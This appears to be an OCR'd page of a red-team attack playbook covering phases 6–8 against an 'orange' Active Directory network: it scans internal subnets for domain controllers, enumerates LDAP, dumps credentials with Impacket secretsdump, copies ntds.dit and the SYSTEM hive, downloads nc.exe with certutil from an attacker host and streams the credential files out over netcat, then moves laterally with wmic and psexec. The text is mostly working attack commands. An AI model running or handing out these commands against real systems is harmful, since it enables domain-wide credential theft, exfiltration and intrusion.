 ## Phase 6: Target Discovery Inside Orange Space

Assuming pivot success to internal hosts:

#### Scan internal subnets for DC or LDAP

```bash
nmap -p 389,445,88,135,139,389,636,3268,3269 -sV -Pn 172.20.0.0/16
```

- Look for the Domain Controller (likely in orange-servers or orange-users).

## Phase 7: Credential Access (via LDAP, SAM/NTDS)

- Once a DC is identified (e.g., 172.20.2.X), you can:
 	- `88`, `389`
- Enumerate via LDAP (LOLBAS):

```bash
ldapsearch -x -h 172.20.2.X -b "dc=orange,dc=local"
```

If admin rights are obtained, dump credentials:

1. Use secretsdump from Impacket

```bash
impacket-secretsdump 'orange.local/adminuser:password@172.20.2.X'
```

2. If on host with NTDS.dit access:
Copy ntds.dit and SYSTEM hive for offline cracking

```bash
copy C:\Windows\NTDS\ntds.dit D:\stolen\
reg save hklm\system D:\stolen\system.hiv
```

Transfer those over SMB/certutil:

```bash
certutil -urlcache -f http://<attacker_ip>/nc.exe nc.exe
nc.exe <attacker_ip> 4444 < ntds.dit
nc.exe <attacker_ip> 4445 < system.hiv
```

Then parse locally:

```bash
secretsdump.py -ntds ntds.dit -system system.hiv LOCAL
```

## Phase 8: Lateral Movement and Persistence

Use Admin Shares:

```bash
wmic /node:172.20.0.X process call create "cmd.exe /c whoami"
psexec.py orange.local/adminuser@172.20.0.X
```
